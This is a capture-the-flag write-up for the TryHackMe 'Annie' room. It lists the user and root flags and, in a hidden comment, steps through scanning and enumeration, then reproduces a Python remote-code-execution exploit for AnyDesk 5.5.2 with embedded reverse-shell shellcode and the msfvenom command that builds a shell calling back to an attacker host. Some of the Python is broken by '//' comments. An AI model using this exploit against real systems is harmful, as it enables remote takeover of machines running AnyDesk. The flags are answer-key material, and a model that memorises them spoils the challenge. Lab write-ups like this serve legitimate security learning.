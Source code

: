 # <div align="center">[Annie](https://tryhackme.com/r/room/annie)</div>
## <div align="center">   Linux ● Medium </div>
<div align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/9bcbd71d6ed380bcbf41c10cce8ccfcd.png" height="200"></img>
</div>

## Task 1. Recon - Research - Exploit

Do your usual recon, go for some vulnerability research, and exploit this box already.
Also, don't forget the PrivEsc of course :)

Good luck & have fun!

## What is user.txt?
```
THM{N0t_ ju5t_ANY_D3sk}
```

## What is root.txt?
```
THM{0nly_ th3m_5.5.2_D3sk}
```
<!--
# Let start with Scanning the target:
```
nmap -sC -sV
```
## SSL Enumeration
```
openssl s_client -connect 10.10.10.10:7070
```
## Anydesk is Running on port 7070, let serch for any Exploit
```
searchsploit anydesk
```
## Here is the Exploit:
```
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881
import struct
import socket

## Note changes have been made from the original exploit

ip = '10.10.29.248'// Change This
port = 50001 // No Need To Change This Since Anydesk uses UDP ports for screensharing purposes

def gen_discover_packet(ad_id, os, hn, user, inf, func):
    d  = b'\x3e\xd1\x01'
    d += struct.pack('>I', ad_id)
    d += struct.pack('>I', 0)
    d += b'\x02' + bytes([os])
    d += struct.pack('>I', len(hn)) + hn
    d += struct.pack('>I', len(user)) + user
    d += struct.pack('>I', 0)
    d += struct.pack('>I', len(inf)) + inf
    d += b'\x00'
    d += struct.pack('>I', len(func)) + func
    d += b'\x02\xc3\x51'
    return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b"" // Make sure to generate the msfvenom reverse shell payload and replace the shellcode below 
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xe2\xbf"
shellcode += b"\x91\x75\x37\x67\xa8\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x53\xcb\xe7\x08\x1f"
shellcode += b"\x35\x38\xc2\x38\xbc\xb0\x94\x3d\xa0\x2f\x11"
shellcode += b"\x3b\xe2\xae\xcd\x7f\x3a\x79\xad\x68\xaa\x36"
shellcode += b"\x77\x1f\x27\x3d\xc2\x13\xba\xb0\x94\x1f\x34"
shellcode += b"\x39\xe0\xc6\x2c\xd5\xb0\x2d\x38\x62\xdd\xcf"
shellcode += b"\x88\x84\xc9\xec\x7f\xdc\x87\x5b\x8b\xd1\xbe"
shellcode += b"\x06\x5f\x67\xfb\x71\x6b\x58\xc3\x22\x7f\xee"
shellcode += b"\x4e\x36\xe7\xbf\x91\x75\x37\x67\xa8"

print('sending payload ...')
p = gen_discover_packet(4919, 1, b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode, b'\x85\xfe%18472249x%93$ln', b'ad', b'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()

print('reverse shell should connect within 5 seconds')
```

## Creating shell code 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
